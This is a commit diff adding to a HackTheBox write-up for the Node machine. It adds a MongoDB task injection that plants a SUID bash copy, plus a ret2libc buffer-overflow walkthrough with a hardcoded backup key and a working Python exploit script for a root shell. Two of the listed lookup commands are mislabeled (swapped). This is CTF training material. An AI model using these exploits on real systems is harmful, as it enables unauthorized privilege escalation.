

Before and after one commit to zhsh9/HackTheBox-Writeup, a Sphinx documentation site: the page built from source/linux/Node.md, in a window 1280 px wide and 1400 px high, scrolled down 12611 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
[+] add oscp like, Node version2

````diff
--- a/source/linux/Node.md
+++ b/source/linux/Node.md
@@ -1,4 +1,4 @@
-# Machine
+# Node
 
 ## Machine Info
 
@@ -170,6 +170,8 @@
 
 ![image-20231216173559044](./Node.assets/image-20231216173559044.png)
 
+- another method to get tom priv: cp bash file into /tmp and set it as suid, `db.tasks.insert({"cmd":"cp /bin/bash /tmp/tom;chown tom /tmp/tom;chmod +gs /tmp/tom;chmod +xs /tmp/tom;"})`
+
 ### tom -> root
 
 - find SUID file
@@ -190,7 +192,126 @@
 
 ### backup buffer overflow
 
+- download the elf into local host: `scp mark@10.10.10.58:/tmp/backup ./backup`
+- file analysis:
+  - `file backup`
+  - `checksec backup`
 
+```bash
+$ file backup
+backup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=343cf2d93fb2905848a42007439494a2b4984369, not stripped
+
+$ checksec backup
+[*] '/Node/priv/backup'
+    Arch:     i386-32-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x8048000)
+```
+
+- remote machine's ALSR is on
+
+![image-20231216204017477](./Node.assets/image-20231216204017477.png)
+
+- backup usage: `backup -q <backup_key> <dir>`
+
+  - `-q`: quite mode
+
+  - `<backup_key>`: `45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474`
+
+  - `<dir>`: zip path
+
+![image-20231216203910681](./Node.assets/image-20231216203910681.png)
+
+- local debugging: make sure create a key file like this:
+
+![image-20231216203837239](./Node.assets/image-20231216203837239.png)
+
+![image-20231216203840635](./Node.assets/image-20231216203840635.png)
+
+- find the overflow point
+
+![image-20231216203902678](./Node.assets/image-20231216203902678.png)
+
+- **POC**: stack overflow
+
+![image-20231216203934189](./Node.assets/image-20231216203934189.png)
+
+Above all, the exploit method is **ret2libc**.
+
+#### find offset
+
+![image-20231216204134341](./Node.assets/image-20231216204134341.png)
+
+![image-20231216204137722](./Node.assets/image-20231216204137722.png)
+
+- `0x66616164` -> small endian (x86) -> 64 61 61 66 -> `daaf` -> cyclic -c daaf -> **512** Byte
+
+```
+          +-------------------------------------------+
+          |                                           |
+          |              return address               |
+          |                                           |
+          |                                           |
+    ----->+-------------------------------------------+
+          |                                           |
+          |              previous ebp                 |
+          |                                           |
+          |                                           |
+          +-------------------------------------------+
+          |                                           |
+512 Bytes |                                           |
+          |                                           |
+          |              local variables              |
+          |                                           |
+          |                                           |
+          |                                           |
+          |                                           |
+    ----->+-------------------------------------------+
+```
+
+#### find addresses of func and string
+
+1. find libc addr: `ldd /usr/local/bin/backup`
+2. find function system addr: `readelf -s /lib32/libc.so.6 | grep system`
+3. find string '/bin/sh' addr: `readelf -s /lib32/libc.so.6 | grep exit`
+4. find function exit addr: `strings -a -t x /lib32/libc.so.6 | grep '/bin/sh'`
+
+![image-20231216204252262](./Node.assets/image-20231216204252262.png)
+
+5. write exploit script
+
+```python
+import subprocess
+import struct
+
+libc = 0xf759b000
+system_func = libc + 0x0003a940
+exit_func = libc + 0x0002e7b0
+binsh_str = libc + 0x15900b
+padding_len = 512
+
+# Use struct.pack to ensure addresses are packed in little-endian format
+system_func_packed = struct.pack('<I', system_func)
+exit_func_packed = struct.pack('<I', exit_func)
+binsh_str_packed = struct.pack('<I', binsh_str)
+
+# Convert the padding 'A's to bytes and construct the payload
+payload = b'A' * padding_len + system_func_packed + exit_func_packed + binsh_str_packed
+
+# Call the vulnerable program with the crafted payload
+tries = 1
+while True:
+	print(f"try {tries} times ..."); tries += 1
+	subprocess.call(["/usr/local/bin/backup", "a", "45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474", payload])
+```
+
+6. execute exp.py and get root shell
+
+![image-20231216204336399](./Node.assets/image-20231216204336399.png)
+
+![image-20231216204340030](./Node.assets/image-20231216204340030.png)
 
 ## Exploit Chain
 
````
Also changed, not shown: source/linux/Node.assets/image-20231216203837239.png (added), source/linux/Node.assets/image-20231216203840635.png (added), source/linux/Node.assets/image-20231216203902678.png (added), source/linux/Node.assets/image-20231216203910681.png (added), source/linux/Node.assets/image-20231216203934189.png (added), source/linux/Node.assets/image-20231216204017477.png (added), source/linux/Node.assets/image-20231216204134341.png (added), source/linux/Node.assets/image-20231216204137722.png (added), source/linux/Node.assets/image-20231216204252262.png (added), source/linux/Node.assets/image-20231216204336399.png (added), source/linux/Node.assets/image-20231216204340030.png (added).
